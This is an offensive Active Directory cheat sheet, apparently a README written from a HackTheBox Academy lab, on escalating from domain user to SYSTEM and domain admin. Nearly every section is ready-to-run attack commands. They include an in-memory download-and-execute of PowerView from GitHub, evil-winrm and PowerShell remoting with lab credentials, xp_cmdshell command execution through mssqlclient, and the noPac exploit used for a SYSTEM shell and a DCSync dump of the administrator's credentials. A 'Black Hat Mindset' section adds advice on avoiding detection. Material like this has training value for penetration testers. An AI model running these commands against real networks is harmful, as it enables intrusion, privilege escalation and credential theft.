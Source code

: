 # Active Directory Privileged Access

This README focuses on enumerating privileged groups, establishing remote sessions, exploiting SQL servers, and leveraging vulnerabilities like noPac/Sam_The_Admin to gain high-privilege access.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Enumerating Privileged Groups](#enumerating-privileged-groups)
- [Establishing Remote Sessions](#establishing-remote-sessions)
- [Exploiting SQL Servers](#exploiting-sql-servers)
- [Exploiting noPac/Sam_The_Admin Vulnerability](#exploiting-nopac-sam-the-admin-vulnerability)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

Privileged access in Active Directory environments allows attackers to escalate from user-level access to SYSTEM or domain admin privileges. This guide covers enumerating privileged groups, establishing remote sessions with WinRM and PowerShell, exploiting SQL servers for command execution, and using the noPac/Sam_The_Admin exploit to perform DCSync attacks. Commands are executed from Windows or Linux hosts, assuming you have compromised credentials (e.g., `INLANEFREIGHT\forend:Klmcargo2`).

## Setup and Prerequisites

- **Environment**: Windows host for PowerView, PowerUpSQL, and PowerShell; Linux host for Impacket, evil-winrm, and noPac.
- **PowerView**: Load into memory on Windows:
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
  ```
- **PowerUpSQL**: Download `PowerUpSQL.ps1` on Windows (e.g., from its GitHub repo) and place in your working directory.
- **Impacket**: Install on Linux: `pip install impacket`
- **evil-winrm**: Install on Linux: `gem install evil-winrm`
- **noPac**: Clone the repository on Linux (see steps below)
- **PowerShell**: Run with appropriate privileges on Windows (right-click > "Run as Administrator")
- **Credentials**: Use compromised credentials (e.g., `INLANEFREIGHT\forend:Klmcargo2`, `inlanefreight\damundsen:SQL1234!`)
- **Network Access**: Ensure connectivity to target hosts (e.g., 172.16.5.5, 172.16.5.150, 10.129.201.234)

## Enumerating Privileged Groups

Identify users in privileged groups that provide access to critical systems.

```powershell
# Enumerate Remote Desktop Users group
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

# Enumerate Remote Management Users group
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

## Establishing Remote Sessions

Gain remote access to target systems using compromised credentials.

```powershell
# Create SecureString password object
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force

# Create PSCredential object
$cred = New-Object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)

# Establish PowerShell session
Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred
```

```bash
# Establish WinRM session using evil-winrm
evil-winrm -i 10.129.201.234 -u forend
```

## Exploiting SQL Servers

Access and exploit SQL servers to execute OS commands.

```powershell
# Import PowerUpSQL
Import-Module .\PowerUpSQL.ps1

# Enumerate SQL Server instances
Get-SQLInstanceDomain

# Query SQL Server version
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

```bash
# Use mssqlclient.py
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth

# In mssqlclient.py shell
SQL> help
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami /priv
```

## Exploiting noPac/Sam_The_Admin Vulnerability

Exploit the noPac/Sam_The_Admin vulnerability to gain SYSTEM access or perform DCSync attacks.

```bash
# Clone noPac repository
sudo git clone https://github.com/Ridter/noPac.git

# Check if DC is vulnerable
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

# Exploit for SYSTEM shell
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

# Exploit for DCSync attack
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

## Black Hat Mindset

- **Target Privileged Groups**: Enumerate groups like "Remote Desktop Users" to identify accounts for lateral movement.
- **Exploit SQL Access**: Use SQL Server misconfigurations (e.g., `xp_cmdshell`) to execute commands and escalate privileges.
- **Leverage Vulnerabilities**: Exploit noPac/Sam_The_Admin to gain SYSTEM shells or extract domain admin credentials.
- **Stay Silent**: Use in-memory tools and minimize network noise to avoid detection during remote access.

## Resources

- [PowerView Documentation]()
- [PowerUpSQL GitHub]()
- [Impacket Guide]()
- [evil-winrm GitHub]()
- [noPac GitHub]()
- [SQL Server Attacks]()

